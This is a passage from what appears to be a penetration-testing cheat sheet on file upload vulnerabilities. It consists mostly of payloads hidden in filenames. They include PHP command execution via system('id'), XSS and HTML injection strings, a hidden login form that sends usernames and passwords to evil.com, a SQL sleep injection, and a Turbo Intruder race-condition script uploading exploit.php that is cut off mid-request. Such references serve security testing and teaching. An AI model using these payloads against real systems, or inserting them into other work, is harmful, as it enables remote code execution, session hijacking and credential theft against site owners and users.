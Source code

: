 ### PHP Injection

```html
<?php echo system('id');?>.jpg
"><?php echo system('id');?>.jpg
```

### XSS

<div data-pagefind-ignore>

```html
<script>alert(1)</script>.jpg
"><script>alert(1)</script>.jpg
```

</div>

### HTML Injection

Try to upload the file which includes **HTML tags** in the filename. It may affect the web page.

<div data-pagefind-ignore>

```html
<h1>test.jpg

<!-- `&sol;`: HTML entiry for '/' -->
"><iframe src="http:&sol;&sol;10.0.0.1">.jpg

"><img src=x onerror=alert(document.domain).jpg

"><form action="//evil.com" method="GET"><input type="text" name="username" style="opacity:0;"><input type="password" name="password" style="opacity:0;"><input type="submit" name="submit" value="submit"><!--.jpg
```

</div>

### SQL Injection

Try to upload the file which includes **SQL command** in the filename. It may execute **SQL Injection** when uploading or other situations.

```txt
--sleep(10).jpg
```

<br /><br />

## Race Condition Attack

We might be able to bypass/execute payload using race condition.  
We can easily achieve that with **Turbo Intruder** in **Burp Suite**.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php
```